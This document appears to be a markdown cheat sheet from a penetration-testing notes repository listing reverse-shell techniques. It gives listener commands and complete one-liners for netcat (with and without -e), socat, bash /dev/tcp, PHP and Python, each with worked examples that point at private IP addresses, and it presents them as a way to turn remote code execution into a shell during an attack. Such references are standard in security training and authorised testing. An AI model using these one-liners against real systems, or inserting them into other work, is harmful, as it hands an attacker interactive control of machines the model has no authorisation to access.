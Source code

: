 # Reverse Shells

Often during the course of an attack, you may gain RCE, and using it you may want to gain a shell. This is often achieved using a reverse shell

## Netcat

### Setting A Listener

    nc -nvlp [Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    nc -nlvp 4444

### With -e

Newer versions have a nice option `-e` which allows binding of a process to an nc connection

    nc -e /bin/sh [IP] [Port]

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    nc -e /bin/sh 192.168.56.101 4444

### Without -e

Older versions of nc don't have the nice `-e` option, so it has to be done slightly differently

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [Port] >/tmp/f

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.102 4444 >/tmp/f

## Socat

### Setting A Listener

    socat file:`tty`,raw,echo=0 tcp-listen:[Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    socat file:`tty`,raw,echo=0 tcp-listen:4444

### Simple Full tty

    socat tcp-connect:[IP]:[Port] exec:"bash -li",pty,stderr,setsid,sigint,sane

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    socat tcp-connect:192.168.54.65:6666 exec:"bash -li",pty,stderr,setsid,sigint,sane

## Bash

### Simple Bash Shell

    bash -i >& /dev/tcp/[IP]/[Port] 0>&1

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    bash -i >& /dev/tcp/192.168.56.101/4444 0>&1

### Alternative

    echo 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1' | bash

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    echo 'bash -i >& /dev/tcp/192.168.212.5/1234 0>&1' | bash

## PHP

### Simple Shell

    php -r '$sock=fsockopen("[IP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'
    
#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    php -r '$sock=fsockopen("192.168.54.98",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

## Python

### Standard Reverse Shell

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

*Note: Some shells here were sourced or modified from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*